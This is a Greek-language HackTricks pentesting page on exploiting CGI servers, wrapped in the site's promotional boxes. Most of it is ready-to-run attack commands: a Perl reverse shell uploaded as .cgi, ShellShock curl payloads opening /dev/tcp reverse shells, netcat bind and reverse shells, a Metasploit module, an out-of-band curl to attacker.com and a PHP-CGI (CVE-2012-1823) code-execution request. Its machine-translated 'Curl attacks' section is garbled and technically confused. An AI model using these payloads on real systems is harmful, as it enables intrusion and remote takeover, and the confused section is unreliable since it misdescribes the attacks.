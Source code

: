 <details>

<summary><strong>Μάθετε το hacking του AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**την Οικογένεια PEASS**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στη [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα hacking tricks σας υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


# Πληροφορίες

Τα **CGI scripts είναι perl scripts**, οπότε, αν έχετε παραβιάσει έναν διακομιστή που μπορεί να εκτελεί _**.cgi**_ scripts, μπορείτε να **ανεβάσετε έναν αντίστροφο shell του perl** \(`/usr/share/webshells/perl/perl-reverse-shell.pl`\), **αλλάξτε την κατάληξη** από **.pl** σε **.cgi**, δώστε **δικαιώματα εκτέλεσης** \(`chmod +x`\) και **αποκτήστε πρόσβαση** στο αντίστροφο shell **από τον περιηγητή** για να το εκτελέσετε.
Για να ελέγξετε για **ευπάθειες CGI** συνιστάται να χρησιμοποιήσετε `nikto -C all` \(και όλα τα πρόσθετα\)

# **ShellShock**

Το **ShellShock** είναι μια **ευπάθεια** που επηρεάζει το ευρέως χρησιμοποιούμενο κέλυφος εντολών **Bash** σε λειτουργικά συστήματα βασισμένα σε Unix. Στοχεύει τη δυνατότητα του Bash να εκτελεί εντολές που περνούν από εφαρμογές. Η ευπάθεια βρίσκεται στην επεξεργασία των **μεταβλητών περιβάλλοντος**, που είναι δυναμικές ονομασμένες τιμές που επηρεάζουν τον τρόπο λειτουργίας των διεργασιών σε έναν υπολογιστή. Οι επιτιθέμενοι μπορούν να εκμεταλλευτούν αυτό προσαρτώντας **κακόβουλο κώδικα** στις μεταβλητές περιβάλλοντος, ο οποίος εκτελείται κατά τη λήψη της μεταβλητής. Αυτό επιτρέπει στους επιτιθέμενους να πιθανώς παραβιάσουν το σύστημα.

Εκμεταλλευόμενοι αυτήν την ευπάθεια η **σελίδα μπορεί να εμφανίσει ένα σφάλμα**.

Μπορείτε να **ανακαλύψετε** αυτήν την ευπάθεια παρατηρώντας ότι χρησιμοποιεί μια **παλιά έκδοση Apache** και **cgi\_mod** \(με φάκελο cgi\) ή χρησιμοποιώντας **nikto**.

## **Δοκιμή**

Οι περισσότερες δοκιμές βασίζονται στο να εκτυπώνουν κάτι και να αναμένουν ότι αυτό το string θα επιστραφεί στην απόκριση του ιστοτόπου. Εάν υποψιάζεστε ότι μια σελίδα μπορεί να είναι ευπάθης, αναζητήστε όλες τις σελίδες cgi και δοκιμάστε τις.

**Nmap**
```bash
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```
## **Curl \(αντανακλαστικό, τυφλό και εκτός ζώνης\)**

Ο Curl είναι ένα εργαλείο γραμμής εντολών που χρησιμοποιείται για την αποστολή και λήψη δεδομένων μέσω πρωτοκόλλων δικτύου, όπως το HTTP, το HTTPS και το FTP. Μπορεί να χρησιμοποιηθεί για την εκτέλεση αντανακλαστικών, τυφλών και εκτός ζώνης επιθέσεων.

Οι αντανακλαστικές επιθέσεις Curl εκμεταλλεύονται την αδυναμία επικύρωσης εισόδου από τον εξυπηρετητή, προκαλώντας την εκτέλεση κακόβουλου κώδικα στον πελάτη. Οι τυφλές επιθέσεις Curl δεν εμφανίζουν άμεση ανταπόκριση από τον εξυπηρετητή, αλλά μπορούν να εκμεταλλευτούν την ανάλυση της απόκρισης για να ανακτήσουν πληροφορίες. Οι επιθέσεις εκτός ζώνης Curl εκμεταλλεύονται την αναφορά σε έναν εξωτερικό εξυπηρετητή για την αποστολή δεδομένων.

Για να εκτελέσετε μια επίθεση Curl, μπορείτε να χρησιμοποιήσετε την εντολή `curl` ακολουθούμενη από τις απαραίτητες παραμέτρους και τον στόχο της επίθεσης. Μπορείτε επίσης να χρησιμοποιήσετε διάφορες επιλογές για να προσαρμόσετε τη συμπεριφορά του Curl και να εκμεταλλευτείτε τυχόν ευπάθειες στον εξυπηρετητή.

Παρακάτω παρέχονται παραδείγματα επιθέσεων Curl για αντανακλαστικές, τυφλές και εκτός ζώνης επιθέσεις:

### Αντανακλαστική Επίθεση Curl

```bash
curl http://example.com/?param=<script>alert('XSS')</script>
```

### Τυφλή Επίθεση Curl

```bash
curl http://example.com/?param=1;SELECT%20*%20FROM%20users
```

### Επίθεση εκτός ζώνης Curl

```bash
curl http://example.com/ -d "data=$(curl http://attacker.com/)"
```

Είναι σημαντικό να είστε προσεκτικοί κατά την εκτέλεση επιθέσεων Curl, καθώς μπορεί να προκληθεί ζημιά στον εξυπηρετητή ή να παραβιαστεί η ασφάλεια του συστήματος. Πάντα εκτελείτε επιθέσεις μόνο σε συστήματα για τα οποία έχετε την άδεια να το κάνετε και πάντα τηρείτε τους νόμους περί κυβερνοεγκληματικότητας.
```bash
# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi
# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh
```
[**Shellsocker**](https://github.com/liamim/shellshocker)
```bash
python shellshocker.py http://10.11.1.71/cgi-bin/admin.cgi
```
## Εκμεταλλευτείτε

Η εκμετάλλευση (exploit) είναι η διαδικασία της αξιοποίησης μιας αδυναμίας ή ευπάθειας σε ένα σύστημα, με σκοπό την απόκτηση μη εξουσιοδοτημένης πρόσβασης ή την εκτέλεση κακόβουλου κώδικα. Οι εκμεταλλεύσεις μπορούν να αξιοποιήσουν ευπάθειες σε λογισμικό, πρωτόκολλα, δικτυακά πρωτόκολλα ή αδυναμίες στη διαμόρφωση του συστήματος.

Οι εκμεταλλεύσεις μπορούν να χρησιμοποιηθούν για να αποκτηθεί πρόσβαση σε ένα σύστημα, να αποκτηθούν προνόμια διαχειριστή ή να εκτελεστεί κακόβουλος κώδικας. Οι εκμεταλλεύσεις μπορούν να είναι είτε αυτόματες, όπου ο επιτιθέμενος χρησιμοποιεί ένα εργαλείο εκμετάλλευσης, είτε χειροκίνητες, όπου ο επιτιθέμενος αναπτύσσει έναν εξατομικευμένο κώδικα εκμετάλλευσης.

Οι εκμεταλλεύσεις μπορούν να αξιοποιήσουν διάφορες ευπάθειες, όπως αδυναμίες ελέγχου εισόδου, αδυναμίες αυθεντικοποίησης, αδυναμίες αποθήκευσης δεδομένων, αδυναμίες επικοινωνίας και πολλές άλλες. Οι εκμεταλλεύσεις μπορούν να είναι πολύ επικίνδυνες και να προκαλέσουν σοβαρές ζημιές σε ένα σύστημα, γι 'αυτό είναι σημαντικό να λαμβάνονται μέτρα ασφαλείας για την πρόληψη των εκμεταλλεύσεων.
```bash
#Bind Shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 8
#Reverse shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
#Reverse shell using curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.11.0.41/80 0>&1' http://10.1.2.11/cgi-bin/admin.cgi
#Reverse shell using metasploit
> use multi/http/apache_mod_cgi_bash_env_exec
> set targeturi /cgi-bin/admin.cgi
> set rhosts 10.1.2.11
> run
```
# **Διαμεσολάβηση (MitM) στις αιτήσεις του διακομιστή ιστού**

Το CGI δημιουργεί μια μεταβλητή περιβάλλοντος για κάθε κεφαλίδα στο αίτημα HTTP. Για παράδειγμα: η "host:web.com" δημιουργείται ως "HTTP\_HOST"="web.com"

Καθώς η μεταβλητή HTTP\_PROXY μπορεί να χρησιμοποιηθεί από τον διακομιστή ιστού, δοκιμάστε να στείλετε μια **κεφαλίδα** που περιέχει: "**Proxy: &lt;IP\_επιτιθέμενου&gt;:&lt;ΘΥΡΑ&gt;**" και αν ο διακομιστής πραγματοποιήσει οποιαδήποτε αίτηση κατά τη διάρκεια της συνεδρίας, θα μπορείτε να καταγράψετε κάθε αίτηση που πραγματοποιείται από τον διακομιστή.

# Παλιό PHP + CGI = RCE \(CVE-2012-1823, CVE-2012-2311\)

Βασικά, αν το cgi είναι ενεργό και το php είναι "παλιό" \(&lt;5.3.12 / &lt; 5.4.2\), μπορείτε να εκτελέσετε κώδικα.
Για να εκμεταλλευτείτε αυτήν την ευπάθεια, πρέπει να έχετε πρόσβαση σε κάποιο αρχείο PHP του διακομιστή ιστού χωρίς να στέλνετε παραμέτρους \(ιδιαίτερα χωρίς να στέλνετε τον χαρακτήρα "="\).
Στη συνέχεια, για να δοκιμάσετε αυτήν την ευπάθεια, μπορείτε να αποκτήσετε πρόσβαση, για παράδειγμα, στο `/index.php?-s` \(σημειώστε το `-s`\) και ο **πηγαίος κώδικας της εφαρμογής θα εμφανιστεί στην απόκριση**.

Στη συνέχεια, για να αποκτήσετε **RCE**, μπορείτε να στείλετε αυτό το ειδικό αίτημα: `/?-d allow_url_include=1 -d auto_prepend_file=php://input` και ο **κώδικας PHP** που θα εκτελεστεί στο **σώμα του αιτήματος.
Παράδειγμα:**
```bash
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://jh2i.com:50008/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```
**Περισσότερες πληροφορίες σχετικά με την ευπάθεια και δυνητικές εκμεταλλεύσεις:** [**https://www.zero-day.cz/database/337/**](https://www.zero-day.cz/database/337/)**,** [**cve-2012-1823**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-1823)**,** [**cve-2012-2311**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-2311)**,** [**CTF Writeup Example**](https://github.com/W3rni0/HacktivityCon_CTF_2020#gi-joe)**.**



<details>

<summary><strong>Μάθετε το hacking στο AWS από το μηδέν μέχρι τον ήρωα με το</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Άλλοι τρόποι για να υποστηρίξετε το HackTricks:

* Εάν θέλετε να δείτε την **εταιρεία σας να διαφημίζεται στο HackTricks** ή να **κατεβάσετε το HackTricks σε μορφή PDF** ελέγξτε τα [**ΣΧΕΔΙΑ ΣΥΝΔΡΟΜΗΣ**](https://github.com/sponsors/carlospolop)!
* Αποκτήστε το [**επίσημο PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ανακαλύψτε [**The PEASS Family**](https://opensea.io/collection/the-peass-family), τη συλλογή μας από αποκλειστικά [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Εγγραφείτε στη** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε τα κόλπα σας για το hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) αποθετήρια του github.

</details>
